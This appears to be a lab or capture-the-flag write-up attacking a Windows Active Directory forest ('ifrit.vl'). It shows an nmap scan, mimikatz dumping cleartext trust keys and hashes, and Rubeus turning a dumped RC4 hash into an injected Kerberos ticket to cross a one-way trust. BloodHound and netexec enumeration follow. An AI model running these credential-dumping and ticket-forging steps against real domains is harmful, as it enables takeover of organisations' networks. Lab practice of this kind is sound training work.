

As usual I will start by performing a full scan of all the open TCP services on this machine:

```bash
PORT      STATE SERVICE       REASON         VERSION
53/tcp    open  domain        syn-ack ttl 64 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 64 Microsoft Windows Kerberos (server time: 2026-04-01 13:16:36Z)
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: ifrit.vl, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 64
464/tcp   open  kpasswd5?     syn-ack ttl 64
593/tcp   open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 64
3268/tcp  open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: ifrit.vl, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 64
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
|_ssl-date: 2026-04-01T13:18:11+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=DC01.ifrit.vl
| Issuer: commonName=DC01.ifrit.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-31T02:44:55
| Not valid after:  2026-09-30T02:44:55
| MD5:     d7ed d490 fa3d f3cd 579a 7568 1c53 d9a6
| SHA-1:   8dd5 3601 f714 ffed 4534 0906 2a54 eeca 8a8e 436e
| SHA-256: 2c29 3869 caf6 381c 3cac 862b aeb2 f90f 07b4 9ccb fc9f 87d0 6683 0828 3561 97cd
| -----BEGIN CERTIFICATE-----
| MIIC3jCCAcagAwIBAgIQFEeVDVleULtNfI84ylENLTANBgkqhkiG9w0BAQsFADAY
| MRYwFAYDVQQDEw1EQzAxLmlmcml0LnZsMB4XDTI2MDMzMTAyNDQ1NVoXDTI2MDkz
| MDAyNDQ1NVowGDEWMBQGA1UEAxMNREMwMS5pZnJpdC52bDCCASIwDQYJKoZIhvcN
| AQEBBQADggEPADCCAQoCggEBAKVgQxOxHCV2W0/hBNfXhS/Zl0jkTUFf27AQKHlQ
| 4K7b4G2ApQ1T0lyBxCxjJzTLpQncSPzxEMbOSam0MAReX7hEcRnsWSVMjwXPqBts
| gOT6mosFEViwPGlzhPdvfxc56OL7yhd6RlarquFfEF8Up1wrJhkBihtYVhxGEUri
| SyUx8v1YRDrffbO91SDDAMpFZOSw1jyj7Ay6XXyhKkWol+FppSlePBtDVdynUIBF
| 6g1RradNWMV3yCyVcgv6NPFm8lj3uyMxrhAuVd7gqVC0KjDiVkOEvplPntZelLpC
| xa6ZxOHDfKjadDYDFzLQ0tw+4R+aCcgq9S9fpal13fEDNXUCAwEAAaMkMCIwEwYD
| VR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEBCwUAA4IB
| AQAfknlW7c8Sjc03Y/FNFMrGNjJ94fIdm/ffxmn1lEnEFh1dyezDJZQmNupoM1/Z
| gYexZMUgH29JsVQOSi0sHXwDqshZQ8lU0UiBrEplfejT6EeNbqSFTU+9VVSpH0Ye
| fsnoGiy7E3kGXb/8KN+wNdwFhitKTY2w/zVAJ2oiDWX/OPaOyrCUKkHUzOR7NQUS
| waJvn5USqhmEne2nPD85S4Gg3Bobpg92og9B3JKZzpZon9BqAZ1csNwedT9dxWh0
| 4vg4rZxUdA4k9+s5hrW0jV/aqg1eAW2sVquAGA5TwaekxSlCM/UYTt9vaG88YSfi
| QM/ng3465TwDLGiRk/Lax3sr
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: IFRIT
|   NetBIOS_Domain_Name: IFRIT
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: ifrit.vl
|   DNS_Computer_Name: DC01.ifrit.vl
|   DNS_Tree_Name: ifrit.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-04-01T13:17:31+00:00
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 64 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
50896/tcp open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
50897/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
50898/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
50912/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
50937/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete

```

# AD

With the Administrative session I have on the DC07 server I will temporary upload the Mimikatz and dump the trust keys so that i can get to the third domain and bypass that One way trust.



```bash
PS C:\Temp> .\mimikatz.exe "lsadump::trust /patch" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::trust /patch

Current domain: IT-IFRIT.VL (IT-IFRIT / S-1-5-21-2679633274-2572298512-61362222)

Domain: IFRIT.VL (IFRIT / S-1-5-21-2526062163-1221180672-3090601648)
 [  In ] IT-IFRIT.VL -> IFRIT.VL

 [ Out ] IFRIT.VL -> IT-IFRIT.VL
    * 4/4/2026 7:43:49 PM - CLEAR   - 74 c3 b4 5f c6 06 f0 d5 06 db db 07 5c a9 25 c8 80 c8 13 af bd c9 72 8e ce 4e 9c b5 b5 f0 8d e9 94 c9 da 63 cc f2 f7 82 4f b1 c5 28 1b a0 51 ef 56 73 b9 0c 6e 00 94 65 5c 3d a9 57 21 3f fd 10 dd fb 3c c2 58 7e da dc 71 0a 60 8f 69 7c a5 84 bf 40 dd b2 75 0a 45 99 f3 08 80 ee 2a d7 a3 a1 4b 4d 83 32 80 22 64 38 72 99 9f cc 6d a8 51 f7 1f 42 01 20 fa 68 6d e8 40 ad 39 5e e6 9b e1 98 78 51 b5 db 02 d8 8a 66 dd 4a 3f 2f 69 13 a4 7a 24 99 b0 6d de 2e 8f 96 f3 48 34 66 84 d3 dd e2 d4 f6 0e b7 bb d7 2c 10 8c b7 b7 4a e7 1d c1 ec d8 13 de e6 72 3c fc 36 38 d6 87 c6 2e c3 f2 98 a3 4e 20 3a 65 ea 6f 99 37 49 8d ae 17 1d 9b 6c 1f 95 63 29 41 55 02 9b cf 3b 60 a7 5c 0d 8e 59 ca cb 99 bd c8 62 92 51 28 56 20 65 bf 92 90 49
        * aes256_hmac       6787fa7ade0f90bdae5d479ecf794315ba67c69b6ef4687f951a342d8bea6830
        * aes128_hmac       ec47adcd332269219aee118ecff9dd59
        * rc4_hmac_nt       439b37d56e628a862445c97575c4a7b9

 [ In-1] IT-IFRIT.VL -> IFRIT.VL

 [Out-1] IFRIT.VL -> IT-IFRIT.VL
    * 4/4/2026 7:43:49 PM - CLEAR   - a6 e1 4e bf bb 0c 0f ac 2f ea 90 d1 b4 cf 2f ce 10 d0 d3 7f 34 e9 3a 8f 22 75 f7 53 a9 95 51 60 72 52 d7 f5 0d 13 e4 52 cb 63 49 3d 50 bb 18 a5 ac e7 b2 69 c3 2c 59 d7 01 4a df 6f 0c 43 9b e9 7f ea b6 d3 3c 90 56 91 ac 00 6a d4 bc 3f ba 1a 32 14 d5 30 66 de 96 61 6c b6 0b 99 93 89 50 11 20 47 6b d0 8e 71 93 e4 12 0a 9a ef 9b 28 a4 d9 bd aa 31 bb d4 f9 bd 3f f5 f8 f4 84 aa e2 81 26 c1 d1 85 ce ba 01 f3 4a db e4 d9 18 7f bd 46 96 a8 08 b3 ed ed 68 10 7d 40 8f 08 dd 04 b1 1f 57 9c 99 8c d6 6e 1e c7 2d fd 07 b1 d6 2c ff cd 80 25 5f 08 32 e3 3a 69 02 7d a8 d0 05 98 da f0 95 4a 6b d7 63 ca 82 c9 fb 68 4a f2 6d 45 bb e6 1e 77 70 c3 fd f5 2e a4 ff 9e e4 a1 c1 cd 92 4f 13 b8 b1 13 2d 0d f2 2b 7d d4 4f 42 3f 11 14 62 a9
        * aes256_hmac       fa8adebe977201515ca6f2c3dd9286125a9072d306a5b550560298f90177e628
        * aes128_hmac       8bd9578ec13cd02bef2656360cfd7bba
        * rc4_hmac_nt       459bf4c4b0ae71e68ac6a781eaa7d20c


Domain: EU-IFRIT.VL (EU-IFRIT / S-1-5-21-815464091-3988217837-1862656938)
 [  In ] IT-IFRIT.VL -> EU-IFRIT.VL
    * 4/4/2026 7:43:53 PM - CLEAR   - bd 03 cf 62 5b ba 4c 98 83 96 fa 0c ad 2f d5 a7 ce a3 7e 2e e3 4a fe 14 8a fa 5e 32 f9 8a d8 9b 61 82 f4 ca 0d 12 4f 84 db fd 73 9c 98 c6 f5 9b b7 e1 8c 18 de 19 3b 32 99 25 ff 6c d2 76 8f d6 32 5e 8b 0c 8a 36 4c 85 5a d2 06 22 10 b8 f6 d1 c0 73 b2 64 e6 11 8e 5d 06 3c a7 b8 d1 e1 5b a6 22 36 56 89 da 7b 09 68 47 d6 77 15 da dc e4 41 f3 27 49 d5 65 7a ec 3d 06 00 d9 5b bc b9 3a ca a2 c6 bf 2e 52 61 9b 2d f6 60 9e 67 eb 02 60 23 20 ab 53 f1 e2 9a 84 f2 3b 81 d3 b7 b9 78 f9 e7 8e 65 b9 c5 e8 d2 61 d0 22 d6 81 bc fa 21 65 89 35 61 64 51 80 a5 45 e4 6a f1 fb 19 2b e8 62 f4 2f 90 31 f7 e8 58 65 2d 07 19 5f 7c 1e 64 3d 90 3a 87 4e 3a 5f b9 2a fd bf 8c 0b ab b8 58 2d ce 41 8b d6 88 3c cf cc cf d9 36 32 b6 92 83 eb 0a
        * aes256_hmac       14541716e01b530a8ff3deea8f445897318c938f1a1e543684d1ea8eef2ef987
        * aes128_hmac       8b0160a5d889c1e0cc04f36617f921ea
        * rc4_hmac_nt       61ceecb83651ec3199b8741c4442220e

 [ Out ] EU-IFRIT.VL -> IT-IFRIT.VL
    * 4/4/2026 7:43:49 PM - CLEAR   - cc 79 3c a4 ba 9b e9 02 48 ce f7 80 17 a2 51 75 be b7 b6 c7 8b b9 2b 86 3f 86 65 3e 24 13 3c ee f2 a5 84 46 ab 11 7b 88 43 18 3a 14 03 23 c0 09 37 1b c1 0f 91 36 dc 2a b6 4f dd 87 5d 6f 33 c0 46 c6 04 9a 7b 6d 6c 83 53 31 41 6e 93 1e 31 89 45 7f c9 7f 57 be 5d bb 6b bb eb ad 3f 48 11 9d 4b a0 81 17 c8 c2 7d 6b 91 71 a5 c4 ed 77 1f 28 99 5a d5 23 30 59 e2 8f 98 c3 6a 99 72 70 cf 50 b3 f4 c2 1b 77 02 03 52 bb 50 48 91 1c 84 b7 c9 b2 36 ae 26 5a 53 b4 8d cf 5d c6 fa a4 a0 3e 45 62 e2 4c 1f c7 47 ba ff f8 39 53 0b cc f2 c7 64 02 fd 48 89 56 47 10 fb 25 f0 f4 44 2e 5a 3d cc cc e2 00 fb 2a 37 c4 0e 5f b2 75 4c 36 da dc b7 7a b6 81 66 d9 4f b8 eb 5b bb 0c f0 f7 59 b1 fa 4c b8 09 61 82 3b 30 59 b4 b7 2a f3 84 8b ce 8b
        * aes256_hmac       f31a70385103f5b4b6ef7977ca1c0692f4711980fd1d603d59412334095bf162
        * aes128_hmac       5e98c369e65c6afe5e5b519d3f0aaa11
        * rc4_hmac_nt       093f147b10d3b726dfa0fe042dbb9f4a

 [ In-1] IT-IFRIT.VL -> EU-IFRIT.VL
    * 7/21/2025 9:57:49 AM - CLEAR   - fb f0 ea 3c b2 e0 83 b6 7c 35 88 5b 26 b4 4b 2b ac 53 58 64 cf bf b6 fb b3 39 47 73 4f 53 e8 13 e3 f5 bb 23 b3 5f 4b ad 5e 4c 37 d1 f1 6a 98 13 b5 86 3d 3f 68 95 b3 73 bb eb 66 33 ad 41 85 5f 67 ca c4 a5 86 a9 a3 ab 43 5a 47 a1 d9 17 2c 47 83 61 b2 e8 45 5f c2 ec e3 75 66 65 5c 43 48 8c 40 35 0f dd 66 5a 44 80 14 fd 5a f7 c7 b0 ad bf e2 0c 4d 50 98 ad 13 b1 59 9d 53 c0 63 c4 af 56 a0 fa 0c 5b ad d0 13 43 bb dc e5 cf 95 c0 d1 87 d9 71 6b 16 5e 7e b8 5b 26 53 a1 a3 fc d9 40 f3 06 ea ae 11 bc 1e 00 c1 cd 11 48 84 04 26 a7 b0 a6 86 ba 06 d6 29 3b 52 7e 05 51 05 3d cf e3 4e 35 c8 34 2f 63 0c 49 e2 b8 54 ee 8d ea 68 67 c7 2f 76 8c 83 00 79 59 d0 c6 c6 72 9b b7 f1 7c 22 1d f1 7d 0b 43 46 06 85 5d 9a e3 28 43 82 1f ac
        * aes256_hmac       1c4b0413c6b38871957ada81f89ab9d12735eb408b2260206a1bdc49645bdded
        * aes128_hmac       ab377bde1ce11a11a6773273ffdc0b3b
        * rc4_hmac_nt       a8bda1112ecba16c26659b8e1ac617b5

 [Out-1] EU-IFRIT.VL -> IT-IFRIT.VL
    * 4/4/2026 7:43:49 PM - CLEAR   - 2f 18 43 57 1c ab cb d0 c4 98 56 2b 16 96 4c 6e 84 a1 56 b7 1f 23 00 ca c1 82 83 c8 95 ad e7 89 4d 90 2d 9f 79 fb f9 88 38 4b f7 dc f5 0f 99 ba 0b ba ab 38 89 20 6b 3b aa bb 7b df a1 ae 03 18 75 d4 e4 83 ed 02 51 6a f4 fa b7 ac 40 65 e7 48 16 70 16 e1 b6 8c 36 f5 08 2b 25 77 63 f0 93 d9 d3 7c 60 2e 39 75 e1 19 f7 fa 7f b7 89 d1 4a 90 e2 31 70 48 e1 1f 24 a1 cf de c9 4b 73 42 46 d5 45 55 39 eb 89 aa cf 31 1b f0 28 83 82 f8 68 ae e9 72 13 86 93 ae 70 eb e2 79 ce 83 c3 a9 6f f4 68 e6 2c 01 de 91 34 ce 38 43 7a b2 85 01 98 f0 28 4c a0 b2 1e 05 f1 33 a0 1e 0a 74 2a ec 8f d9 93 5d 83 c1 ee 38 be e3 38 1e f8 17 8d e2 53 02 aa f1 19 79 a4 62 59 65 b1 2e 33 57 f3 2a a1 d4 8b 77 85 85 ec af 26 86 bd c2 a3 0e 3d 5f 0c d5
        * aes256_hmac       089fa6dcbcf90bb509faca0795e4ea6f792ff8a834dd5970576c51bee670bcd2
        * aes128_hmac       a4b5fa04e8d4ee838ccbcbfd713a1599
        * rc4_hmac_nt       b672690b16bc73d9f049fe32b6f0fa4a


mimikatz(commandline) # exit
```

Here I had to ask via Windows because it failed for some reasons from linux but now I have a valid TGT for the trusted account:

```bash
PS C:\Temp> .\Rubeus.exe asktgt /user:it-ifrit$ /domain:ifrit.vl /rc4:439b37d56e628a862445c97575c4a7b9 /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 439b37d56e628a862445c97575c4a7b9
[*] Building AS-REQ (w/ preauth) for: 'ifrit.vl\it-ifrit$'
[*] Using domain controller: 172.16.41.11:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFTDCCBUigAwIBBaEDAgEWooIEbDCCBGhhggRkMIIEYKADAgEFoQobCElGUklULlZMoh0wG6ADAgEC
      oRQwEhsGa3JidGd0GwhpZnJpdC52bKOCBCwwggQooAMCARKhAwIBAqKCBBoEggQWJNx6KHfmTfah2pv5
      oeiCKGOXepwaSwgYC/RyiYpTeGGddELylKteZE8kL8FSRm5yhNy/bC4LW3OcicHts/MnL9arvRPHh/YM
      ZW4o/fHExpPcHzbVgtaKWLR9JV756Nb8vVLxMJGqRFSrVgyM9Yfa85wajUDW+E2rXO5CUGuI+xkb/8pB
      GKr1831kAZnPw0avmthb+4CIpTUueTKwZpFGEonVqxIJlD7shIYmeoDakIl/G3mtBHnhdNj6QzwrVf2M
      p7vrGsJofeeLigGT5Hw6NyHK1YHmpi9Vp1QXaXMoWc4cvwIlFLy0emW0GA3RTlGtcpBlKIt3HMtWG1ps
      jYuFzmz42UuGN7Ee+1ddTn742YpkcAfHsKr/+2LCoiHCb7hejUomzA7xnIfbepB+dSSiOtxg42D2oBUM
      nhCekn1boMIL6WBNROB06gHUnlkgGC1OZ9unZhtc5Z+bvnFkP54xCzMbQMIcHpssJzOUqljBPVmemo5I
      DInF+3xCqNXPgoW6uijFBH1ivjCA93it39z/DnTe6iI2kyiaj7jX2TwXd3CeLfFr8RpKbhMbiH+qiinT
      6kKdJAOJKVYa2U9eaybK1QvgadM/zW9qydhuPHx0s35XDi+zKD158fo0slbnFdESBxA/kcJKVya1vm5y
      xloRmElTB6l06nX2FfSSWEauOsZC80X3HbkPt4zB1owLZ0TEJH/sONhGHoUsl69U/QQMLd6cdIrDBdxw
      sItsvvecFuZXm9QLVV1jlmbr9ZQTBcizNT7a+fUAWA0ZYTXUg4suFQAQx4ZqM5D33lAtuNKtDBhp+H0W
      PkYQZAtM7Yy30BkOJze+VEaTkeECRCICa3napwJ/PVQO5PVsvzbQNs9lPHOYYjU3wmHIN8boYTzenPAV
      x06uMp3xfwaqT2vpGuVKHmvD7UxGksFoZQSJ5GSMszBVdJ4aBqO3ad+e/ietNavXRbmZfCoQfh/Mg/Az
      U0YaVmRbywEzYCzcvWVTUQ7pFPPVdHMG8ewOX/Cj+Uvm542OCyGVSQLCWmfOKfGLDyYuPHEZzrkG4Ioy
      wZRm8ty3xqdKo4evsxuPE8vkkf0q4qwrAOY/YnC55VIgd3BXtntdYfwE5eS7SMw/bY/bCv50ToV5ZT5j
      F1qGRKhux4ScGvW3bkhyEtKl9XLCo0Q09XSI2m1fJBrNl3QL+xA2MM2IWSlWHPJFvQZgUjoXXB0H+hrW
      zQ2FeJVFvbpAq7J4cykM5iMdtjzpFFwCK7U182BZ6fpf91x+kwKi2Gxc+2kqU1xtoACR0O0yg3nY+Sfc
      UptvbId5fB25SKIA94dwN55PHsYyaDFzcnPdiXU6FxAyj1w1gJaBh6hwssGXnK6sINRgSSbgX1EzvN7q
      Xw2rYXSLoze9/2VWHwOjgcswgcigAwIBAKKBwASBvX2BujCBt6CBtDCBsTCBrqAbMBmgAwIBF6ESBBCl
      y2Jw3HZv+kq+oS/yDZqRoQobCElGUklULlZMohYwFKADAgEBoQ0wCxsJaXQtaWZyaXQkowcDBQBA4QAA
      pREYDzIwMjYwNDA1MTkyNDIxWqYRGA8yMDI2MDQwNjA1MjQyMVqnERgPMjAyNjA0MTIxOTI0MjFaqAob
      CElGUklULlZMqR0wG6ADAgECoRQwEhsGa3JidGd0GwhpZnJpdC52bA==
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/ifrit.vl
  ServiceRealm             :  IFRIT.VL
  UserName                 :  it-ifrit$ (NT_PRINCIPAL)
  UserRealm                :  IFRIT.VL
  StartTime                :  4/5/2026 12:24:21 PM
  EndTime                  :  4/5/2026 10:24:21 PM
  RenewTill                :  4/12/2026 12:24:21 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  pcticNx2b/pKvqEv8g2akQ==
  ASREP (key)              :  439B37D56E628A862445C97575C4A7B9

```

And after a import and convert to a valid Ccache format I was able to dump the AD via Bloodhound:

```bash
bloodhound-ce-python -ns 172.16.41.11 -d 'ifrit.vl' -u 'it-ifrit$' -k -no-pass -c 'All' --zip
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: ifrit.vl
INFO: Using TGT from cache
INFO: Found TGT with correct principal in ccache file.
INFO: Connecting to LDAP server: dc01.ifrit.vl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc01.ifrit.vl
INFO: Found 84 users
INFO: Found 56 groups
INFO: Found 2 gpos
INFO: Found 5 ous
INFO: Found 19 containers
INFO: Found 2 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: DC01.ifrit.vl
INFO: Done in 00M 20S
INFO: Compressing output into 20260405213027_bloodhound.zip

```

A quick check shows no traces of custom users description so far:

```bash
└─$ netexec smb 172.16.41.11 --use-kcache --users
SMB         172.16.41.11    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:ifrit.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.41.11    445    DC01             [+] IFRIT.VL\it-ifrit$ from ccache 
SMB         172.16.41.11    445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                    
SMB         172.16.41.11    445    DC01             Administrator                 2024-07-14 13:40:23 0       Built-in account for administering the computer/domain
SMB         172.16.41.11    445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         172.16.41.11    445    DC01             krbtgt                        2024-07-07 10:49:10 0       Key Distribution Center Service Account 
SMB         172.16.41.11    445    DC01             Roger.Howard                  2024-07-14 08:52:50 0        
SMB         172.16.41.11    445    DC01             Melanie.James                 2024-07-14 08:52:50 0        
SMB         172.16.41.11    445    DC01             Alex.Macdonald                2024-07-14 08:52:50 0        
SMB         172.16.41.11    445    DC01             Eileen.Taylor                 2024-07-14 08:52:50 0        
SMB         172.16.41.11    445    DC01             Iain.Graham                   2024-07-14 08:52:51 0        
SMB         172.16.41.11    445    DC01             Shaun.Griffiths               2024-07-14 08:52:51 0        
SMB         172.16.41.11    445    DC01             Edward.Evans                  2024-07-14 08:52:51 0        
SMB         172.16.41.11    445    DC01             Graeme.Smart                  2024-07-14 08:52:51 0        
SMB         172.16.41.11    445    DC01             Kathryn.George                2024-07-14 08:52:51 0        
SMB         172.16.41.11    445    DC01             Joshua.Hall                   2024-07-14 08:52:51 0        
SMB         172.16.41.11    445    DC01             Malcolm.Robinson              2024-07-14 08:52:51 0        
SMB         172.16.41.11    445    DC01             Harry.Price                   2024-07-14 08:52:52 0        
SMB         172.16.41.11    445    DC01             John.Fleming                  2024-07-14 08:52:52 0        
SMB         172.16.41.11    445    DC01             Robert.Wood                   2024-07-14 08:52:52 0        
SMB         172.16.41.11    445    DC01             Jeremy.Russell                2024-07-14 08:52:52 0        
SMB         172.16.41.11    445    DC01             Lesley.Pearce                 2024-07-14 08:52:52 0        
SMB         172.16.41.11    445    DC01             June.Knowles                  2024-07-14 08:52:52 0        
SMB         172.16.41.11    445    DC01             Amelia.Carter                 2024-07-14 08:52:52 0        
SMB         172.16.41.11    445    DC01             Carol.White                   2024-07-14 08:52:52 0        
SMB         172.16.41.11    445    DC01             Mathew.Jones                  2024-07-14 08:52:52 0        
SMB         172.16.41.11    445    DC01             Ben.Hall                      2024-07-14 08:52:52 0        
SMB         172.16.41.11    445    DC01             George.Gill                   2024-07-14 08:52:53 0        
SMB         172.16.41.11    445    DC01             Georgia.Parker                2024-07-14 08:52:53 0        
SMB         172.16.41.11    445    DC01             Dennis.Woodward               2024-07-14 08:52:53 0        
SMB         172.16.41.11    445    DC01             Paula.Bradshaw                2024-07-14 08:52:53 0        
SMB         172.16.41.11    445    DC01             Georgia.Thorpe                2024-07-14 08:52:53 0        
SMB         172.16.41.11    445    DC01             Pauline.Thomas                2024-07-14 08:52:53 0        
SMB         172.16.41.11    445    DC01             Louise.Fowler                 2024-07-14 08:52:53 0        
SMB         172.16.41.11    445    DC01             Chloe.Harvey                  2024-07-14 08:52:53 0        
SMB         172.16.41.11    445    DC01             Georgina.Mills                2024-07-14 08:52:53 0        
SMB         172.16.41.11    445    DC01             Samantha.Ball                 2024-07-14 08:52:53 0        
SMB         172.16.41.11    445    DC01             Mandy.Thomas                  2024-07-14 08:52:53 0        
SMB         172.16.41.11    445    DC01             Cheryl.Singh                  2024-07-14 08:52:53 0        
SMB         172.16.41.11    445    DC01             Frances.King                  2024-07-14 08:52:53 0        
SMB         172.16.41.11    445    DC01             June.Holland                  2024-07-14 08:52:53 0        
SMB         172.16.41.11    445    DC01             Jean.Fitzgerald               2024-07-14 08:52:53 0        
SMB         172.16.41.11    445    DC01             Rhys.Clarke                   2024-07-14 08:52:54 0        
SMB         172.16.41.11    445    DC01             Jamie.Smith                   2024-07-14 08:52:54 0        
SMB         172.16.41.11    445    DC01             Susan.Nixon                   2024-07-14 08:52:54 0        
SMB         172.16.41.11    445    DC01             Natasha.Griffiths             2024-07-14 08:52:54 0        
SMB         172.16.41.11    445    DC01             Yvonne.Cross                  2024-07-14 08:52:54 0        
SMB         172.16.41.11    445    DC01             Grace.Ferguson                2024-07-14 08:52:54 0        
SMB         172.16.41.11    445    DC01             Justin.White                  2024-07-14 08:52:54 0        
SMB         172.16.41.11    445    DC01             Hayley.Bradley                2024-07-14 08:52:54 0        
SMB         172.16.41.11    445    DC01             Martyn.Robinson               2024-07-14 08:52:54 0        
SMB         172.16.41.11    445    DC01             Reece.Bowen                   2024-07-14 08:52:54 0        
SMB         172.16.41.11    445    DC01             Oliver.Powell                 2024-07-14 08:52:54 0        
SMB         172.16.41.11    445    DC01             Marilyn.Singh                 2024-07-14 08:52:54 0        
SMB         172.16.41.11    445    DC01             Gerald.Smith                  2024-07-14 08:52:54 0        
SMB         172.16.41.11    445    DC01             Aimee.Owen                    2024-07-14 08:52:54 0        
SMB         172.16.41.11    445    DC01             Lauren.McCarthy               2024-07-14 08:53:08 0        
SMB         172.16.41.11    445    DC01             Guy.Haynes                    2024-07-14 08:53:08 0        
SMB         172.16.41.11    445    DC01             Leigh.White                   2024-07-14 08:53:08 0        
SMB         172.16.41.11    445    DC01             Brandon.Ball                  2024-07-14 08:53:08 0        
SMB         172.16.41.11    445    DC01             Gary.Gray                     2024-07-14 08:53:08 0        
SMB         172.16.41.11    445    DC01             Naomi.Ford                    2024-07-14 08:53:08 0        
SMB         172.16.41.11    445    DC01             Katie.Chambers                2024-07-14 08:53:08 0        
SMB         172.16.41.11    445    DC01             Melanie.Bailey                2024-07-14 08:53:09 0        
SMB         172.16.41.11    445    DC01             Charlie.Ross                  2024-07-14 08:53:09 0        
SMB         172.16.41.11    445    DC01             Jane.King                     2024-07-14 08:53:09 0        
SMB         172.16.41.11    445    DC01             Norman.Taylor                 2024-07-14 08:53:12 0        
SMB         172.16.41.11    445    DC01             Natalie.Faulkner              2024-07-14 08:53:13 0        
SMB         172.16.41.11    445    DC01             Ian.Simpson                   2024-07-14 08:53:13 0        
SMB         172.16.41.11    445    DC01             Martin.Newman                 2024-07-14 08:53:13 0        
SMB         172.16.41.11    445    DC01             Nicholas.Barrett              2024-07-14 08:53:13 0        
SMB         172.16.41.11    445    DC01             Charlotte.Cooper              2024-07-14 08:53:13 0        
SMB         172.16.41.11    445    DC01             Danielle.Walton               2024-07-14 08:53:13 0        
SMB         172.16.41.11    445    DC01             Glenn.Price                   2024-07-14 08:53:13 0        
SMB         172.16.41.11    445    DC01             Stewart.Pugh                  2024-07-14 08:53:13 0        
SMB         172.16.41.11    445    DC01             Leigh.Lee                     2024-07-14 08:53:13 0        
SMB         172.16.41.11    445    DC01             Declan.Holden                 2024-07-14 08:53:17 0        
SMB         172.16.41.11    445    DC01             Stephen.Hill                  2024-07-14 08:53:17 0        
SMB         172.16.41.11    445    DC01             Holly.Stevenson               2024-07-14 08:53:17 0        
SMB         172.16.41.11    445    DC01             June.Read                     2024-07-14 08:53:17 0        
SMB         172.16.41.11    445    DC01             Martin.Martin                 2024-07-14 08:53:17 0        
SMB         172.16.41.11    445    DC01             Michael.Robson                2024-07-14 08:53:17 0        
SMB         172.16.41.11    445    DC01             David.Preston                 2024-07-14 08:53:17 0        
SMB         172.16.41.11    445    DC01             Alice.Begum                   2024-07-14 08:53:17 0        
SMB         172.16.41.11    445    DC01             Liam.Turner                   2024-07-14 08:53:17 0        
